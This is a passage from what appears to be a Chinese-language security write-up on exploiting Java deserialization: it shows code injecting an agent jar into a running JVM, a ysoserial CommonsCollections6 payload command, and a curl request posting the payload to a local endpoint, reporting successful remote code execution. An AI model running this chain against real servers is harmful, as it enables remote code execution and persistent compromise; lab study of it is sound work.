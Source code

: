 ```java
            detach.invoke(vm,null);
            System.out.println("Agent.jar Inject Success !!");
            break;
        }
    }
} catch (Exception e){
    e.printStackTrace();
}
```

然后用yso生成cc链

```php
java -jar ysoserial.jar CommonsCollections6 codefile:./Test.java > cc11demo.ser
```

最后使用curl访问发包即可

```php
curl -v "http://localhost:8080/cc11" --data-binary "@./cc11demo.ser"
```

我们访问传参测试，成功rce

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-7f157593ede9967736dfd6de3f98973ddd6654eb.png)